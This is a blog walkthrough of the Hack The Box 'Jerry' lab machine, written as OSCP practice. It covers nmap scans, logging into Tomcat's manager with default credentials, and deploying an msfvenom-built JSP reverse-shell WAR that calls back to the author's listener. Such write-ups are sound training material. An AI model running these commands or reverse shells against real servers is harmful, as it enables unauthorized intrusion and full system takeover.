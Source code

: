 ```yaml
---
title: 'HTB: Jerry'
author: Nullprism
date: 2021-08-09 15:10:00 -0500
categories: [HTB, Windows]
tags: [oscp-like, oscp prep, writeup, walkthrough, jerry, windows, tomcat, war, msfvenom, ctf, hackthebox, htb, nmap]
image:
  src: /assets/img/htb/jerry/jerry_title_card.PNG
  width: 500   # in pixels
  height: 200   # in pixels
  alt: Jerry Title Card
---
```


## Intro

I finally decided to get serious about doing the OSCP. My work colleagues have been harping on me for a while now about doing it, and I really don't have any reason not to.  Community consensus seems to be that TJNull's list of ["OSCP-like"](https://www.netsecfocus.com/oscp/2021/05/06/The_Journey_to_Try_Harder-_TJnull-s_Preparation_Guide_for_PEN-200_PWK_OSCP_2.0.html#vulnerable-machines) boxes is excellent prep. So I figured I'd start with that. Its broken down by Linux and Windows. I always feel more comfortable on Linux than I do Windows, so I'm going to start doing all the Windows ones first.

## Reconnaissance

### Initial Engagement

I've been using ```reconnoitre``` a lot recently, but I've sound recent tooling updates on enumeration tools have outpaced the repo - making following on scans and enumerations problematic. For the time being, I've reverted to manually managing my scans with ```nmap```. I may re-approach ```reconnoitre``` at a future date.

That being said, time to begin with the initial engagement with this box.

```bash
nmap -sC -sV -oA 'scans/initial' 10.129.1.110
```

This will give me a quick overview of the most popular ports, and their potential services on this box. 
- ```-sV``` will probe all open ports to determine service and version info
- ```-sC``` will run default scripts against those services (not the ones flagged as unsafe, however)
- ```-oA``` will output all formats into my scans folder

### Initial Results

```
Nmap scan report for 10.129.1.110
Host is up (0.057s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

It appears we only have one port open, 8080, and its running Apache Tomcat. 

### More Recon

Before we move on to enumeration, I'll always kick off an all-ports scan to see if there's anything subtle hidden on the box. This includes UDP. These usually take quite some time, so I like them to run in the background while I"m doing initial service enumeration.

```bash
nmap -sC -sV -sU -p- -oA 'scans/all-ports' 10.129.1.110
```

**Side Note:** This completed much later in the engagement, with no additional findings.


## Enumeration

### Apache Tomcat

Browsing to the port at *http://10.129.1.110:8080/* yielded a default (and potentially misconfigured) Apache Tomcat splash page.

![Tomcat Splash Page](/assets/img/htb/jerry/jerry_tomcat_splash.png)

Clicking on the Manager app immediately prompts us for credentials.

![Tomcat Manager Credential Prompt](/assets/img/htb/jerry/jerry_tomcat_cred_prompt.png)


### Finding Tomcat Credentials

Trying something default like ***admin/admin*** didn't work. Going to the google machine, I researched *"Apache Tomcat Default Manager App Password"* and after a few boring pages, I stumbled on [this post](https://code2care.org/2015/tomcat-manager-default-username-and-password), indicating that the default manager app credentials should be ***tomcat/s3cret***. Trying those, I was successful in logging into the manager application.

### Further Server Enumeration

Once within the manager application, further enumeration of the target host is possible.

![Server Enumeration](/assets/img/htb/jerry/jerry_server_enum.png)

You'll see later on that these are largely irrelevant, but as a rule of thumb, I am constantly trying to gather more information about my target environment. You may never know when it will be useful; particularly in privilege escalation vectoring.

## Exploitation

### Initial Assessments

Access to the Tomcat manager app gets us carte blanche ability to upload WAR files, so we can generate a reverse webshell with ```msfvenom```.

### Generating a Webshell

```bash
┌──(kali㉿kali)-[~/htb/jerry/exploits]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.105 LPORT=4443 EXITFUNC=thread -f war > cargo.war
Payload size: 1099 bytes    
Final size of war file: 1099 bytes
```
Build Me A:
- JSP based reverse tcp shell
- Phone home to my attack platform on port 4443
- If the shell exits, don't crash the application
- Output the format in WAR format
- Write all to the file ```cargo.war```

### Deliver the Webshell

Delivery on this one is easy, upload the war via the Manager App. You may want to make sure you have your listener set up first, just in case.

### Setup Listener

```bash
nc -lnvp 4443
```

### Execute Shell

You should see the application loaded in the Manager app interface, now. You can simply click on the hyperlink, or navigate to it *http://10.129.1.110:8080/cargo/* to execute the webshell.

### Shell

![Shell Catch](/assets/img/htb/jerry/jerry_shell_catch.png)

And we have shell on Jerry.
  
## Post-Exploitation

### Initial Assessments

As always whenever I receive shell, I want to know where I landed and who I landed as. In this case, you can see I landed as **NT AUTHORITY/SYSTEM** and I am on the intended target host. Since we are already root, there is not much more to this box.

## Privilege Escalation

Given our exploit vector, no privilege escalation is necessary on this engagement. We can just go straight for flags.

## Flags

![Jerry Flags](/assets/img/htb/jerry/jerry_flags.png)
